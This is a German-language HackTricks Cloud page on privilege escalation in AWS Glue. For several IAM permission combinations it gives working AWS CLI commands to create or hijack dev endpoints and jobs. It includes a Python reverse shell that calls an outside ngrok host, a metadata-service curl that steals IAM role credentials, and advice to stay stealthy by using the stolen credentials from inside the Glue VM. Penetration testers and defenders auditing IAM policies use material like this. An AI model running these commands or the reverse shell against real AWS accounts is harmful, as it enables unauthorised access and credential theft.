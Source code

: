 # AWS - Glue Privilege Escalation

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Benutzer mit diesen Berechtigungen können **einen neuen AWS Glue-Entwicklungs-Endpunkt einrichten**, **eine vorhandene von Glue übernehmbare Dienstrolle mit spezifischen Berechtigungen diesem Endpunkt zuweisen**.

Nach der Einrichtung kann der **Angreifer eine SSH-Verbindung zum Instanz des Endpunkts herstellen** und die IAM-Anmeldeinformationen der zugewiesenen Rolle stehlen:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Zu Stealth-Zwecken wird empfohlen, die IAM-Anmeldeinformationen innerhalb der Glue-Virtual Machine zu verwenden.

**Potenzielle Auswirkungen:** Privilege Escalation auf die angegebene Glue-Service-Rolle.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Benutzer mit dieser Berechtigung können **einen vorhandenen Glue-Entwicklungs**-Endpunkt SSH-Schlüssel **ändern und SSH-Zugriff darauf aktivieren**. Dies ermöglicht es dem Angreifer, Befehle mit den Berechtigungen der angehängten Rolle des Endpunkts auszuführen:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potenzielle Auswirkungen:** Privilege Escalation zum verwendeten Glue-Service-Rolle.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Benutzer mit **`iam:PassRole`** in Kombination mit entweder **`glue:CreateJob` oder `glue:UpdateJob`**, und entweder **`glue:StartJobRun` oder `glue:CreateTrigger`** können einen **AWS Glue-Job erstellen oder aktualisieren**, indem sie ein beliebiges **Glue-Service-Konto** anhängen und die Ausführung des Jobs initiieren. Die Fähigkeiten des Jobs umfassen das Ausführen beliebigen Python-Codes, der ausgenutzt werden kann, um eine Reverse-Shell herzustellen. Diese Reverse-Shell kann dann genutzt werden, um die **IAM-Anmeldeinformationen** der Rolle, die dem Glue-Job angehängt ist, zu exfiltrieren, was zu potenziell unbefugtem Zugriff oder Aktionen basierend auf den Berechtigungen dieser Rolle führen kann:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potenzielle Auswirkungen:** Privilege Escalation auf die angegebene Glue-Service-Rolle.

### `glue:UpdateJob`

Nur mit der Update-Berechtigung könnte ein Angreifer die IAM-Anmeldeinformationen der bereits angehängten Rolle stehlen.

**Potenzielle Auswirkungen:** Privilege Escalation auf die angehängte Glue-Service-Rolle.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}
